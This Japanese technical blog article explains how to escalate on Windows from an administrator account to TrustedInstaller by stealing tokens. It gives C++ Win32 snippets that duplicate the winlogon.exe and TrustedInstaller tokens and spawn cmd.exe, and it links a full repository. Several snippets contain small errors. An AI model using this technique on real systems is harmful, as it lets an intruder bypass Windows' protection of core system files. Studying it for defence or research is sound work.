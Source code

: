 ```yaml
---
title: "トークン偽装(窃取)攻撃の仕組みとコード"
emoji: "🖥️"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["セキュリティ", "windows", "cpp"]
published: true
---
```


トークン偽装(窃取)攻撃について実際のコードと一緒に備忘録として残します。
Windowsのプロセスのアクセス管理はアクセストークンという手法を用いています。
各プロセスにはアクセス権限情報を持ったアクセストークンが割り当てられており、対応する権限があれば複製をすることができます。
トークン偽装攻撃は自プロセスよりも高い権限が付与されたアクセストークンを複製し、
起動するプロセスに割り当てることでWindowsの最高権限であるTrustedInstallerに昇格することを指します。
以下コードはすべてC++で、関数は明記しない限りすべてWin32 APIのものになります。

## 前提条件

偽装トークンを作成することができるSeImpersonatePrivilege特権が必要です。
Administratorグループのユーザーなら保持しています。

## 用語の解説

### プライマリアクセストークン

ユーザーの権限(セキュリティコンテキスト)が記録されたトークン。
ユーザーが起動するプロセスはプライマリアクセストークンが継承されて付与されます。

### 　偽装トークン

Windowsには仕様として他のユーザーのセキュリティコンテキストを持ったトークンを利用してスレッドを実行することができる機能が提供されています。
これを偽装トークンと呼びます。
偽装トークンを用いることでアクセス制御の処理を簡略することができます。
たとえば、ファイルサーバーがクライアントに対してファイルのアクセス権限をチェックする場合を考えます。
クライアントのセキュリティコンテキストを取得してアクセス権限のチェックを行うよりも、
クライアントのアクセストークンを偽装トークンとして複製してからそのファイルにアクセスすればアクセス権限のチェックをWindowsに委譲することができます。
こうすることで、サーバープログラムはWindowsのアクセス制御の仕組みの変更に対して強くなります。

以下にさらに詳しく説明されています。
<https://blog.nflabs.jp/entry/2021/12/20/094644>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.4.2.d_%E5%81%BD%E8%A3%85.MD>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.6.3_%E5%BC%B7%E5%8A%9B%E3%81%AA%E7%89%B9%E6%A8%A9.MD>

## 昇格までの流れ

1. winlogon.exeのアクセストークンを複製
1. 現在のスレッドに複製したwinlogon.exeの偽装トークンを付与
1. TrustedInstallerサービスの起動
1. TrustedInstaller.exeからプライマリトークンを複製
1. TrustedInstaller権限でプロセスを起動する

## 1. winlogon.exeのアクセストークンを複製

Windowsのログオン機能をつかさどるwinlogon.exeはSYSTEM権限で起動されています。
そのため、winlogon.exeにはSYSTEM権限のアクセストークンが紐づけられています。
以下関数を利用してwinlogon.exeのアクセストークンを偽装トークン(TokenImpersonation)としてコピーします。

```cpp
// winlogon.exeのプロセスのハンドルを取得。(pidはwinlogon.exeのプロセスID)
HANDLE hProcessWinlogon = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
// winlogon.exeのプロセスハンドルからアクセストークンのハンドルを取得
HANDLE hTokenWinlogon;
OpenProcessToken(hProcessWinlogon, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTokenWinlogon); 
//DuplicateProcessToken関数を使用してして偽装トークンとして複製し、ハンドルを取得。
HANDLE hImpersonationToken;
DuplicateTokenEx(hTokenWinlogon, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenImpersonation, &hImpersonationToken)
```

:::message
関数のリファレンス

OpenProcess
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess>
OpenProcessToken
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken>
DuplicateTokenEx
<https://learn.microsoft.com/ja-jp/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex>
:::

## 2. 現在のスレッドに複製したwinlogon.exeの偽装トークンを付与

後述するTrustedInstallerサービスを起動するために、複製したSYSTEM権限を持つ偽装トークンを自スレッドに割り当てることでをSYSTEM権限に昇格させます。

```cpp
 // 現在のプロセスのハンドルを取得
 HANDLE hCurrentThread = GetCurrentThread();
 // 複製したアクセストークンを現在のスレッドに割り当てる。
 // hImpersonationTokenには前項で複製したwinlogin.exeのアクセストークンのハンドルが入る
 SetThreadToken(&hCurrentThread, hImpersonationToken);
```

:::message
関数のリファレンス

GetCurrentThread
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentthread>
SetThreadToken
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadtoken>
:::

## 3. TrustedInstallerサービスの起動

TrustedInstallerに昇格するにはTrustedInstaller権限のアクセストークンが付与されているプロセスが必要です。
WindowsのTrustedInstallerサービスはSYSTEM権限で起動することができ、そのプロセスのアクセストークンにはTrustedInstallerの権限が付与されています。

```cpp
// TrustedInstaller サービスの起動
SC_HANDLE hTrustedInstallerService = OpenServiceW(OpenSCManagerW(NULL, NULL, SC_MANAGER_ALL_ACCESS), L"trustedinstaller", MAXIMUM_ALLOWED);
SERVICE_STATUS_PROCESS lpBuffer = {};
DWORD pcbBytesNeeded;
// サービスの状況を問い合わせ。lpBufferにサービス情報が入り、lpBuffer.dwProcessIdにプロセスIDが格納される。
QueryServiceStatusEx(hTrustedInstallerService, SC_STATUS_PROCESS_INFO, (BYTE*)&lpBuffer, sizeof(ssp), &pcbBytesNeeded)
```

## 4. TrustedInstaller.exeからプライマリトークンを複製

起動したTrustedInstaller.exeからプライマリアクセストークンを複製します。

```cpp
// 前項の処理でlpBuffer.dwProcessIdはTrustedInstaller.exeのプロセスIDを保持しています。
HANDLE hProcessTrustedInstaller = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, lpBuffer.dwProcessId);
// TrustedInstaller.exeのアクセストークン 
HANDLE hTruestedInstallerToken;
OpenProcessToken(hProcessTrustedInstaller, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTruestedInstallerToken); 
// 複製するプライマリトークン
HANDLE hPrimaryToken;
DuplicateTokenEx(hTruestedInstallerToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenPrimary, &hPrimaryToken)
```

:::message
関数のリファレンス
OpenServiceW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-openservicew>
OpenSCManagerW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-openscmanagerw>
QueryServiceStatusEx
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-queryservicestatusex>
:::

## 5. TrustedInstaller権限でプロセスを起動する

あとは作成するプロセスにTrustedInstallerのプライマリアクセストークンを付与することで、TrustedInstallerに昇格することができます。

```cpp
// コマンドプロンプト
const LPCWSTR targetExecutable = L"C:\\Windows\\System32\\cmd.exe";
STARTUPINFO si = {};
PROCESS_INFORMATION pi = {};
// コマンドプロンプトをTrustedInstaller権限のアクセストークンを付与して起動する。
// hTruestedInstallerToken前項で複製したTrustedinstaller.exeのプライマリアクセストークン
CreateProcessWithTokenW(hTruestedInstallerToken, LOGON_NETCREDENTIALS_ONLY, targetExecutable, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

:::message
関数のリファレンス
CreateProcessWithTokenW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw>
:::

以下のようになれば成功です。
アカウント名が「dev」から「nt authority\system」になっています。
nt authority\systemはSYSTEMレベルの権限をもつ疑似ユーザーです。
![シェル起動の例](/images/c54054307260f7/image.png)

## まとめ

以上のプロセスでTrustedInstaller権限でプロセスを立ち上げることができます。
全体のソースコードは以下にあります。ダウンロードの際はセキュリティソフトに検知されますのでお気を付けください。
<https://github.com/takafumiokamoto/RunAsTrustedInstaller>

## 参考記事

<https://devblog.lac.co.jp/entry/20220905>
<https://book.hacktricks.xyz/v/jp/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens>
<https://blog.nflabs.jp/entry/2021/12/20/094644>
また、実装にあたり以下リポジトリを参考にさせていただきました。
<https://github.com/wilszdev/GetTrustedInstallerShell>
